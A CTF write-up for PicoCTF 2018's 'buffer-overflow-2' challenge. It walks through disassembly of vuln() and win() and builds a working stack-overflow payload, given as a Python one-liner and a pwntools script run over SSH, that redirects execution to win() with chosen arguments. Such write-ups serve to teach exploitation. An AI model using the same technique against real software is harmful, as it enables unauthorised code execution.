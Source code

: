 # Write-up for buffer-overflow-2 challenge
# PicoCTF_2018: buffer-overflow-2

**Category:** Binary Exploitation
**Points:** 250

> Alright, this time you'll need to control some arguments. Can you get the flag from this program? 
You can find it in /problems/buffer-overflow-2_1_63b4b691601811c553a7c19e367737b9 on the shell server. Source.

Let's run the program first:

```console
$ ./vuln
Please enter your string: 
AAAA
AAAA
```

Okay, we don't have anything useful.
It's time to disassemble the program.
 
I'll skip `main()` to go  straight to `vuln()`.

```asm
Dump of assembler code for function vuln:
   0x08048646 <+0>:	push   ebp
   0x08048647 <+1>:	mov    ebp,esp
   0x08048649 <+3>:	sub    esp,0x78
   0x0804864c <+6>:	sub    esp,0xc
   0x0804864f <+9>:	lea    eax,[ebp-0x6c]
   0x08048652 <+12>:	push   eax
   0x08048653 <+13>:	call   0x8048430 <gets@plt>
   0x08048658 <+18>:	add    esp,0x10
   0x0804865b <+21>:	sub    esp,0xc
   0x0804865e <+24>:	lea    eax,[ebp-0x6c]
   0x08048661 <+27>:	push   eax
   0x08048662 <+28>:	call   0x8048460 <puts@plt>
   0x08048667 <+33>:	add    esp,0x10
   0x0804866a <+36>:	nop
   0x0804866b <+37>:	leave  
   0x0804866c <+38>:	ret    
End of assembler dump.
```

We have the same vulnerability with buffer-overflow-2. 
Now, buffer's size is 0x6c (108 decimal).

Like the previous challenge there is a `win()` function that we want to return.
But, it wouldn't be enough for this challenge to jump to win function ofcourse.
Let's analyze them.

```asm
Dump of assembler code for function win:
   0x080485cb <+0>:	push   ebp
   0x080485cc <+1>:	mov    ebp,esp
   0x080485ce <+3>:	sub    esp,0x58
   0x080485d1 <+6>:	sub    esp,0x8
   0x080485d4 <+9>:	push   0x8048750
   0x080485d9 <+14>:	push   0x8048752
   0x080485de <+19>:	call   0x80484a0 <fopen@plt>
   0x080485e3 <+24>:	add    esp,0x10
   0x080485e6 <+27>:	mov    DWORD PTR [ebp-0xc],eax
   0x080485e9 <+30>:	cmp    DWORD PTR [ebp-0xc],0x0
   0x080485ed <+34>:	jne    0x8048609 <win+62>
   0x080485ef <+36>:	sub    esp,0xc
   0x080485f2 <+39>:	push   0x804875c
   0x080485f7 <+44>:	call   0x8048460 <puts@plt>
   0x080485fc <+49>:	add    esp,0x10
   0x080485ff <+52>:	sub    esp,0xc
   0x08048602 <+55>:	push   0x0
   0x08048604 <+57>:	call   0x8048470 <exit@plt>
   0x08048609 <+62>:	sub    esp,0x4
   0x0804860c <+65>:	push   DWORD PTR [ebp-0xc]
   0x0804860f <+68>:	push   0x40
   0x08048611 <+70>:	lea    eax,[ebp-0x4c]
   0x08048614 <+73>:	push   eax
   0x08048615 <+74>:	call   0x8048440 <fgets@plt>
   0x0804861a <+79>:	add    esp,0x10
   0x0804861d <+82>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x08048624 <+89>:	jne    0x8048640 <win+117>
   0x08048626 <+91>:	cmp    DWORD PTR [ebp+0xc],0xdeadc0de
   0x0804862d <+98>:	jne    0x8048643 <win+120>
   0x0804862f <+100>:	sub    esp,0xc
   0x08048632 <+103>:	lea    eax,[ebp-0x4c]
   0x08048635 <+106>:	push   eax
   0x08048636 <+107>:	call   0x8048420 <printf@plt>
   0x0804863b <+112>:	add    esp,0x10
   0x0804863e <+115>:	jmp    0x8048644 <win+121>
   0x08048640 <+117>:	nop
   0x08048641 <+118>:	jmp    0x8048644 <win+121>
   0x08048643 <+120>:	nop
   0x08048644 <+121>:	leave  
   0x08048645 <+122>:	ret    
End of assembler dump.
```

In the first lines, program opens flag.txt file but we see 2 very important lines:

```asm
   0x0804861d <+82>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x08048624 <+89>:	jne    0x8048640 <win+117>
   0x08048626 <+91>:	cmp    DWORD PTR [ebp+0xc],0xdeadc0de
   0x0804862d <+98>:	jne    0x8048643 <win+120>
```

First of all, we have to clear something. If you know how C programs lie in memory you would see that `win()` function takes two arguments
. These values are stored at ebp + 0x8 and ebp + 0xc (ebp + 0x10 if there  were more etc.). 

To print the flag, arg1 must be 0xdeadbeef and arg2 0xdeadc0de.

How could we intervene to those values?

Think about it...
We assume that before we call RET instruction inside `vuln`  **esp** contains **X** address. We've changed return address in order to jump to `win`.
With ret instruction we pop return address from stack, so now inside **esp** we find **X + 0x4**. 
Then, prolog of `win` function comes:
```asm
0x080485cb <+0>:	push   ebp
0x080485cc <+1>:	mov    ebp,esp
```

We push **ebp**, so **esp** is again **X**. Ebp of `win` function is equal to esp of `vuln` function just before ret instruction which is **ebp + 0x4** of `vuln` function. 
Quick maths... we have to place the 2 arguments at **ebp + 0xc** and **ebp + 0x10** (ebp of `vuln`). That's it, buffer overflow technique is exactly the same as in the previous challenge. 

> # Crafting the exploit

```bash
python -c 'print "A"*112 + "\xcb\x85\x04\x08" + "\x90"*4 + "\xef\xbe\xad\xde" + "\xde\xc0\xad\xde"' > payload

./vuln < payload
```

Python script:

```python
#!/usr/bin/python

from pwn import *
import struct

user = 'XXXX'
pw = 'XXXX'


vuln = ELF('./vuln')
payload = 'A' * 112
payload += p32(vuln.symbols['win'])
payload += "\x90" * 4
payload += struct.pack("I", 0xdeadbeef)
payload += struct.pack("I", 0xdeadc0de)

s = ssh(host = '2018shell4.picoctf.com', user = user, password = pw)
s.set_working_directory('/problems/buffer-overflow-2_1_63b4b691601811c553a7c19e367737b9')

r = s.process('./vuln')
print r.recv()
r.sendline(payload)
print r.recv()
r.close()
```



